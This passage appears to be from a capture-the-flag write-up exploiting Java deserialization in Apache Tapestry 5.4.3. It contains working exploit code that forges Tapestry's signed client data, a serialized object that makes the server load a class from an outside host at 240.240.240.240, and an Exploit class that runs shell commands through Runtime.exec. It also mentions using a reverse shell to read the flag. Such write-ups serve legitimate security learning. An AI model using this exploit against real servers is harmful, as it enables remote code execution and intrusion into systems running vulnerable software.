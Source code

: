 ```java
    }

    public static void main(String[] args) throws Exception {
        Object exp = getExploit("http://240.240.240.240:1234/:Exploit");
        try {
            ClientDataEncoder en = new ClientDataEncoderImpl(null, "TOP_SECRET_PASSPHRASE_YOU_WILL_NEVER_KNOW:)", null,
                "does not matter", null);
            ClientDataSink sink = en.createSink();
            ObjectOutputStream s = sink.getObjectOutputStream();
            s.writeUTF("1234");
            s.writeBoolean(true);
            s.writeObject(exp);
            s.close();
            String out = sink.getClientData();
            System.out.println(out);
        } catch (IOException i) {
            i.printStackTrace();
            return;
        }
    }
}
```

The server will try to fetch `http://240.240.240.240:1234/Exploit.class` to load the class. Create an `Exploit.class` by:

```java
public class Exploit { 
  public Exploit() { 
    try { 
      Runtime.getRuntime().exec(new String[]{"bash", "-c",
        "sleep 5"
      }).waitFor();
    } catch (Exception e) { 
    } 
  }
}
```

Refer to [this article](https://blog.csdn.net/fnmsd/article/details/88959428#c3p0).

Flag: `flag{Apache Tapestry is too old. They maybe wont fix this bug :(}`

By the way, the author said it's related to this [CVE](CVE-2014-1972).

#### Failed Attempts

- CVE: The version of Apache Tapestry is 5.4.3. From 5.4.3 to 5.4.4 they fixed [this](https://issues.apache.org/jira/browse/TAP5-2601) and [this one](https://git-wip-us.apache.org/repos/asf?p=tapestry-5.git;a=shortlog;h=refs/tags/5.4.4), but I don't find anything interesting there.
- Using Python to spoof the HMAC: I still have no idea why the signature is different. Finally I have to use Tapestry's class to forge the signature.
- Server fail to deserialize: It was because the server will [first read 2 data type](https://github.com/apache/tapestry-5/blob/85cc611fbad4a3574664b33ce9adf614b4f0fe07/tapestry-core/src/main/java/org/apache/tapestry5/corelib/components/Form.java#L723-L724). It's required to provide a String and a Boolean to make it parse correctly.
- No `nc` available: The remote server does not have `nc` command...... I use a reverse shell to read the flag.
